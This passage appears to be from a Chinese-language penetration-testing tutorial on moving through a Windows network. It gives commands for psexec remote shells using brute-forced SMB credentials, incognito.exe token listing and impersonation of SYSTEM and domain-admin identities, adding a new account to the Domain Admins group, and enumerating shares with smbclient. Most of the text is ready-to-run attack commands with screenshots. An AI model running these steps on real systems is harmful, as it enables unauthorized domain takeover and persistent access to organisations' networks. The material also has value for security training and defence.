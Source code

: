 通过得到的账号密码信息链接跳板机，通过 smb 爆破得到账号密码，如果目标没有开启 3389/23 服务无法直接登录，借助 psexec.exe 工具通过 smb 服务调用目标 cmd  

```
psexec.exe \\\\192.168.198.138 -u administrator -p 123456 cmd

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEjRC4XL8DiaAx3u71HhSac9qt4BfE6gTFYGD4PcV63TT3AjjWuZ4LSww/640?wx_fmt=png)  

**2.incognito.exe 提权**  

```
#查看本机可以利用的token
incognito.exe list\_tokens -u
#查看远程机器可以利用劫持的token
incognito.exe -h 192.168.198.138 -u administrator -p 123456 list\_tokens -u

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEo0DHRM8gP2iaCDNia9PtuJT2AwZJmAA187icryyqBzibEt7zPQmj2icLwCA/640?wx_fmt=png)

```
#调用远程机器的本地系统权限的cmd.exe，查看可以劫持的权限
incognito.exe -h 192.168.198.138 -u administrator -p 123456 execute -c "NT AUTHORITY\\SYSTEM" cmd.exe

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEGbdCPOouLS48ibwGJ32YuCeWhBeBIVz6qkOIrib11I629KAFicWBFU4mw/640?wx_fmt=png)  

```
#域控账号登陆过普通主机，可以尝试拿到域低权限账号利用incognito工具劫持域控身份
#查找被攻击的计算机中是否有DC的token
incognito.exe -h 192.168.200.11 -u admin -p 123123 list\_tokens -u  
#利用DA的token创建新的DC，调用DC的cmd.exe
incognito.exe -h 192.168.200.11 -u admin -p 123123 execute -c "XY\\ADMINISTRATOR" cmd.exe  
#执行创建DC命令
net user hh 123.com /add /domain
net group "domain admins" hh /add /domain

```

**Linux 下通过 smbclient 访问 windows 共享目录**  
1\. 安装 smbclient  

```
yum -y install samba-client/apt-get install samba-client

```

2\. 查看共享  

```
smbclient -L 192.168.1.8 -U administrator 

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEOXEHxjWRL2m90Sn1K1gUlZDHKcs3iaromLJfibxYQNFicG1gUw5hgq0kQ/640?wx_fmt=png)
